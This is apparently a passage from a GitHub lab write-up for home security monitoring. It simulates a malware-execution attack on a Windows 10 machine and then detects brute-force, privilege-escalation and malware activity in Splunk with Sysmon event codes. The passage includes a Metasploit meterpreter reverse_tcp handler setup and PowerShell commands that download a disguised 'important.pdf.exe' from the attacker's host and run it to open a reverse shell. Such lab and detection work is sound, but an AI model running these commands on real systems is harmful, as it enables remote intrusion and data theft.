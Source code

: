 ```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Windows_IP>
set LPORT 4444
run
```

<b>Step4:</b> Download from windows 10(target)
On the target machine (Windows 10), logged in as testuser, open PowerShell and run:
```bash
Invoke-WebRequest  -Uri "http://<kali_IP>:8000/important.pdf.exe" -OutFile "C:\Users\Public\important.pdf.exe"
```
```bash
Start-Process "C:\Users\Public\important.pdf.exe"
```
If this command is successful then Metasploit will receive a reverse shell.
After gaining a Meterpreter session, the attacker executed commands such as sysinfo, getuid, and download to simulate post-exploitation behavior. These activities were logged using Sysmon and analyzed via Splunk to demonstrate real-world detection capabilities.

---
## 🔎Splunk Detection
Now, we are going to analysis logs using splunk. Let's start with brute force attack. for checking this attack, we simply check for the Windows Security wite Event code 4625 which basically show the logs related to failure login attempts. This image shows there are some logs available related to this eventcode.

![image](https://github.com/user-attachments/assets/feeb2497-9930-479b-a4bd-2a4d072427fe)

After appling filter for identify any suspicious IP, I found an outsider IP 
![image](https://github.com/user-attachments/assets/9feab662-1b64-48ba-b8b4-d44eb26c0d78)

This simply shows that from this ip, try to get the access to the system.

Let's move to other simulation attack-privilege escalation.For this I gone through the sysmon with eventcode 1 which basically used to identify for the new process creation like "powershell.exe" or "cmd.exe".
![image](https://github.com/user-attachments/assets/17c39f36-4b02-4ad9-af93-fa55f2b46273)

After analysis the logs deeply, I checked the commandline where some command look suspicious ,there is one command execute to run the notepad as administrator.

![image](https://github.com/user-attachments/assets/14fd3ef6-b422-4260-89b0-e4ceb65f9ca5)

Interesting Point is that ,they try to get administration access through the localuser that makes it more suspicious.

Now, this is the last simulation attack - Malware execution.
For this type of attack, I used the sysmon with some events like 1(process creation),3(NetworkConnection),11(File creation).
![image](https://github.com/user-attachments/assets/232619fd-0b67-4701-8873-5e01fd6ba6ea)

